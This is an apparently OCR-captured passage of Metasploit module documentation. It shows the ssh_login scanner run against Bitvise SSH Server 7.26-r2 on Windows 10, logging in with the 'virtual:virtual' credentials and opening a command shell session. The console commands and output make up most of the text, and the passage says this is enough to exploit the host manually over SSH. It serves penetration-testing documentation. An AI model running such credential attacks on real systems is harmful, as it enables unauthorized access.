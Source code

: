 ```

```

Example run against:

* Windows 10 w/ Bitvise SSH Server (WinSSHD) version 7.26-r2 and a virtual account created

It is important to note here that the module gives back a **Success**, but then errors when trying to identify the
remote system. This should be enough info to manually exploit via a regular SSH command.

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.140
rhosts => 192.168.2.140
msf auxiliary(ssh_login) > set username virtual
username => virtual
msf auxiliary(ssh_login) > set password virtual
password => virtual
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'virtual:virtual' 'id: Command not found.  help ?: Command not found.  '
[!] No active DB -- Credential data will not be saved!
[*] 192.168.2.140 - Command shell session 4 closed.  Reason: Died from EOFError
[*] Command shell session 4 opened (192.168.2.117:36169 -> 192.168.2.140:22) at 2017-02-22 21:20:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
